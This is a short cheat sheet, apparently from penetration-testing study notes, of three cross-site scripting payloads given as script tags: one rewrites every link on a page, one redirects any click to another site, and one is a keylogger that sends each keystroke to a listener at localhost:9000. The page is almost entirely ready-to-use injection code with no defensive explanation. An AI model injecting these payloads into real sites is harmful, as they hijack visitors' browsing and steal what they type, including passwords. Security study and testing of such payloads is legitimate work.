 ## href change
```js
<script>for(let i of document.getElementsByTagName("a"))i.href="http://localhost"</script>
```


## event
``` js
<script>document.body.addEventListener('click',event=>{location.href="http://PentesterAcademy.com"});</script>
```
## keylogger
```js
<script>window.addEventListener("keydown",event=>{new Image().src="http://localhost:9000/?kedown="+event.key;})</script>
```
